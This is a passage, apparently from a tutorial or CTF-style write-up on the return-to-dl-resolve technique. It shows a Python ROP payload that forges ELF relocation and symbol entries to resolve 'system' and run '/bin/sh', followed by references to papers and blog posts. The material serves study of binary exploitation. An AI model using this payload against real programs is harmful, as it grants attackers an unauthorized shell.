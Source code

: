 ```python
		memcpy(buf + 1024 + 1600, link_map_addr, 8) + # buf+1024+1560
		write(1, 0, 0x1c8+8) + # buf+1024+1680
		memcpy(buf + 1024 + 1840, link_map_addr, 8) + # buf+1024+1800
		read(0, 0, 0x1c8+8) + # buf+1024+1920
		memcpy(buf + 1024 + 2176, dl_runtime_resolve_addr, 8) + # buf+1024+2040
		memcpy(buf + 1024 + 2184, link_map_addr, 8) + # buf+1024+2160
		p64(pop_rdi_ret) +
		p64(buf + 4096 + 40) +
		p64(0) + # _dl_runtime_resolve
		p64(0) + # link_map
		p64(reloc_arg) # reloc_arg
	).ljust(4096, '\x00') + # buf+4096
		# Elf64_Rela
		p64(buf) + # r_offset
		p64(0x7 | (((buf + 4096 + 16 - dynsym) / 24) << 32)) + # r_info
		# Elf64_Sym <= buf+4096+16
		p32(buf + 4096 + 32 - dynstr) + # st_name
		p32(0x12) + # st_info
		p32(0) +
		p32(0) +
		# buf+4096+32
		'system\x00\x00' +
		'/bin/sh\x00'
)
```

# References

https://www.youtube.com/watch?v=wsIvqd9YqTI
https://www.usenix.org/system/files/conference/usenixsecurity15/sec15-paper-di-frederico.pdf
https://bbs.ichunqiu.com/forum.php?mod=viewthread&tid=42933
http://www.inforsec.org/wp/?p=389
http://pwn4.fun/2016/11/09/Return-to-dl-resolve/
http://rk700.github.io/2015/08/09/return-to-dl-resolve/
http://phrack.org/issues/58/4.html
